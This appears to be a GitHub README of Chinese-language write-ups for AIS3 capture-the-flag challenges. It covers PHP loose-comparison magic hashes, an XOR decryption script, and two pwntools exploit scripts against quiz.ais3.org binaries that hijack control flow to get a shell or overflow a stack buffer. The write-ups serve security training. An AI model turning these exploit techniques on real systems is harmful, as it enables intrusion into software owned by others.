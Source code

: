 # ctf-wirte-ups
record my write-ups
# misc1
> 送分題(忘了存flag)

# misc2
> 題目關了忘記解法

# web1
> 連線時得到http response 302
> 使用burp suite便找到flag

# web2
> 利用php == 判斷bug
> 當2個數字2是0e開頭的字串時，使用==會判斷為true
> 網路上找了一組 240610708, QNKCDZO
> 測試就得到flag

# crypto1.py
> 只要了解如何用xor做加密,便能解開這題
> 首先利用xor的特性，去找出加密的key
> 再利用找出的key，去對加密後的結果進行解密
```python
#!/usr/bin/env python
import binascii
import struct
  
encrypted = [964600246, 1376627084, 1208859320, 1482862807, 1326295511, 1181531558, 2003814564]

'''
    Since A xor B = C, we can get the result: A xor C = B.
    First, caculator A xor C get B(mask),
    and then decryptor each pattern.
'''
ais3 = 'AIS3'[::-1]
ais3 = int('0x'+binascii.hexlify(ais3), base=16)

xor_mask = encrypted[0] ^ ais3

for pattern in encrypted:
    print struct.pack('<I', pattern ^ xor_mask),
print
```
flag is AIS3{A X OR B  XOR  A E QUAL S B}

# reverse1
> 使用Immunity Debugger， 找到程式有printf但又fflush
> 於是下好斷點，慢慢地取得所有flag

# pwn1
> 打開ida，看完程式碼
> 大概了解pwn1.bin會將讀入資料當作function去執行
> 因此只要把送一個位址進去就好，
> 又在function table中找到youcantseeme()，可以直接開啟shell
> 只是function的開始為轉成字串會有 \n 存在
> 於是選了在stack上放 sh 這行做為執行位址
> 便能取得shell(只是剛開始找不到flag，因為在/bin/pwn1/flag)
>> 0x08048613 <+9>:	push   0x804875c
```python
#!/usr/bin/env python
from pwn import *

DEBUG = not False

if DEBUG:
    r = process('pwn1.bin')
else:
    r = remote('quiz.ais3.org', 9561)

r.recvuntil(':')
r.sendline(p32(0x08048613))

if not DEBUG:
    r.sendline("cd /home/pwn1")
    r.sendline("cat flag")
    print r.recvline()

r.interactive()
r.close()

```
flag is ais3{4nn0y1n9_Wh1t3_SpAcE_CHAR4CTERS}

# pwn2
> 題目上使用者的密碼為variable password的記憶體位址
> 但在讀取使用者帳號和密碼時，存在stack buffer overflow漏洞
> 可以再輸入帳號時直接修改密碼(structure 結構帳號和密碼的位置連載一起)
> 輸入修改好的密碼後，在選1便能得到利用密碼做xor加密的密文
> 利用密碼將得的密文解密(可能是選的密碼太差導致拿到不可顯示的字元)
> 取得(2r:\x0b425\x1e \x1e2(,1-r\x1e.7$3'-.6<LKAA\x81\x18\xaa�nAAA))
> xor後得到is3{Just_a_simpl3_overflow}\r\n\x00\x00\xc0Y\xeb\xae\xfe\xfc/\x00\x00\x00hh
> 修改一下答案得到ais3{Just_a_simpl3_overflow}

```python
from pwn import *

r = remote('quiz.ais3.org', 56746)
r.recvuntil(':')
r.sendline('AAAAAAAAAAAAAAAAAAAAAAAA')
r.recvuntil(':')
r.sendline(str(0x41414141))
r.interactive()
r.close()
```
flag is ais3{Just_a_simpl3_overflow}

